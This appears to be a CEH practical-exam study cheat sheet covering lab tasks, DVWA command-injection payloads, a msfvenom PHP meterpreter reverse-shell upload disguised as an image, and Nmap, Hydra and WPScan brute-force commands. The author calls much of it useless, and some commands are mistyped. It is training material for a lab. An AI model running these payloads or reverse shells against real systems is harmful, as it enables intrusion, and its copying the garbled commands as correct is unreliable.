 # CEH_CHEAT_SHEET

1.Sql injection using sqlmap: u need to perform sql injection attack using sqlmap and need to extract password of specific user.

2. You need to check which hosts have rdp enabled. For this u need to perform the port scan on 3389 and then os discovery on open port host and u need to get os of that rdp enabled host.

3. U need to check the mysql service running on which host. Same question 2 technique you need to perform.

3. U need to extract username and password of ftp ( hydra tool u need to use and need to use wordlist placed in desktop wordlist folder)

4. U need to get the password.txt file using veracrypt (disk encryption)

5. U need to get the username and password using wireshark.

6. U need to check bit 3 is true or not using wireshark

7. U need to check the traffic from which port to which port is moving using wireshark

8. U need to decrypt the 3des encryption using cryptool.

9. U need to extract the pin using openstego

10. U need to perform steganalysis on the txt file using snow tool

11. U need to perform brute force on the website using burpsuite ( using intruder)

12. U need to crack hash file using john ( the hash file is located in the responder tool logs file)

13.u need to find the flag file from the ftp. ( for this task bro please use the credentials u cracked in previous challenge)

14. Perform remote os command
 injection (dvwa web) and need to get the content from pin file

15. Perform file upload (dvwa web)

16. U need to compare the hashes using md5 and provide results which file is tampered.

17. Need to crack hash file ( john the ripper)

18. U need to find trojan and need to provide the port of the trojan
19. U need to perform the parameter tamperingo


For 8. The key value will be 11.

U need to perform the cryptanalysis and u have to use the cryptool. Open the cryptool on top, click on encryption / decryption and then click on asymmetric and select tripe des ecb and set 11 11 11 in all. But first please open that file in the tool they ask us to perform the decryption decryption

For this remote command injection attack u need to perform the things a

Snow.exe -C -p “given_password” file_name

| dir c:\ with this command u can see the pin.txt file. But to read the content from this try this command | dir c:\ "pin.txt" or this command ! Take pin.txt

## DVWA 

### WINDOWS - COMMAND INJECTION


Easy - Command Injection 

Execute 127.0.0.1 & & net user
Execute 127.0.0.1 & & net user & & ver command
Execute 127.0.0.1 & & net user & & getmac

Medium - Command Injection 

127.0.0.1&net user
127.0.0.1&net user&sc query&systeminfo
127.0.0.1&;&ipconfig

High - Command Injection

127.0.0.1|net user

### FILE UPLOAD - WINDOWS

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.104 lport=3333 -f raw

type GIF98 before PHP code and save as shell.jpeg.

Copy the uploaded path 

Click on command injectio and type below command
|copy C:\xampp\htdocs\DVWA\hackable\uploads\shell.jpeg
 C:\xampp\htdocs\DVWA\hackable\uploads\aa.php

Msfconsole 
Use multi/handler
Set payload php/meterpreter/reverse_tcp
Set lhost
Set lport
Run



# My experience - 2022 March:

Above material was gathered for preparation, but most of the  content is just useless,So don’t take this seriously, rather you should make your own notes for ILABS videos on youtube. During the exam I have searched many things and even went through the commands manual for finding particular flags and tools to find the answer, so don’t worry if anything is missing in your custom cheatsheet as this is an open book exam. 

Tough questions I had in the exam.

An FTP site is hosted on a machine in a network. Obtain the file “flag.txt” by cracking the credentials of the FTP server and determine the content in this file.
Ftp server was bruteforce easily but the file would not be retrieved as error stated that “Access Denied”. 

An important file has been hidden in the Server 2019 machine in the directory mentioned below. You are an ethical hacker working with a company. You have been assigned the task to retrieve the file “SECRET.txt” using a backdoor that was installed in the server. Enter the secret number hidden in the file. Path: C:\Users\Administrator\Documents\Findme
No clue about this, like where to find the server in the network.

# Note: You can download and install tools If you'll does'nt find required tool on given machine, you can find tools from folder CEH-Tool on given windows machine as well.

## Tools I used .
```
Veracrypt 
Cryptool
Snow
Bctextencoder
Md5 & sha1 checksum utility
Wpscan
Nmap
Metasploit
Hydra
Wireshark
Winscp
OWASP ZAP
RDP
```

## Commands:
```
Net  user
Snow.exe -C -p “given_password” file_name
—---------------------

wpscan --url http://10.10.10.12:8080/CEG --enumerate u
msfconsole
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Passwords.txt
set RHOSTs 10.10.10.12
set RPORT 8080
set TARGETURI http://10.10.10.12:8080/CEH/
set USERNAME admin
run

—------------------------
Nmap -Pn -p 21 target > ftp
grep -B 5 open ftp

—--------------------------
Nmap -Pn -p 3389 target > rdp
grep -B 5 open rdp
—-------------------------
Nmap -Pn -p 3306 target > mysql
grep -B 5 open mysql

Hydra -l james -P given_wordlist ftp://target
```

## DVWA - You can change the severity from impossible to easy.
